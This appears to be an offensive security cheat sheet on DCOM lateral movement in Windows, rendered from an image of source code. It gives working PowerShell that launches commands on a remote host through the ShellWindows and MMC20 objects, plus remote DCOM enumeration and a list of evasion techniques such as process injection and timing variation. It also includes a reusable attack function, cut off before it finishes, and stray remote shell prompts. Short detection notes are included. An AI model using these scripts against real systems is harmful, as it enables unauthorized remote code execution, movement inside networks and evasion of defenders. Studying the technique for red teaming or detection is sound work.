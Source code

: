 ### ShellWindows DCOM Lateral Movement

**Shell Automation:**
```powershell
# Create ShellWindows DCOM object
$shell = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("Shell.Application","192.168.50.73"))

# Navigate and execute
$item = $shell.Windows().Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","","","")
```

### DCOM Enumeration and Discovery

**Available DCOM Objects:**
```powershell
# Enumerate DCOM applications
Get-CimInstance -ClassName Win32_DCOMApplication | Select-Object Name, AppID

# Query specific DCOM object
Get-CimInstance -ClassName Win32_DCOMApplication -Filter "Name='MMC20.Application.1'"

# Remote DCOM enumeration
Get-CimInstance -ComputerName "192.168.50.73" -ClassName Win32_DCOMApplication
```

**DCOM Configuration Analysis:**
```powershell
# Check DCOM permissions
$dcomApp = Get-CimInstance -ClassName Win32_DCOMApplication -Filter "Name='MMC20.Application.1'"
$dcomApp | Get-CimAssociatedInstance -Association Win32_DCOMApplicationSetting
```

### DCOM Detection and Evasion

**Detection Indicators:**
- **RPC Traffic:** Unusual RPC endpoint connections
- **Process Creation:** Unexpected child processes from DCOM objects
- **Event Logs:** DCOM activation events (Event ID 10016)
- **Network Patterns:** DCOM-specific network signatures

**Evasion Techniques:**
- **Object Selection:** Use less commonly monitored DCOM objects
- **Timing Variation:** Implement delays between operations
- **Process Injection:** Inject into existing DCOM processes
- **Custom Objects:** Develop custom DCOM objects for specific operations

### Advanced DCOM Techniques

**PowerShell DCOM Framework:**
```powershell
function Invoke-DCOMLatMovement {
    param(
        [string]$ComputerName,
        [string]$Command,
        [string]$DCOMObject = "MMC20.Application.1",
        [System.Management.Automation.PSCredential]$Credential
    )
    
    try {
        if ($Credential) {
            $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID($DCOMObject, $ComputerName), $Credential)
        } else {
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname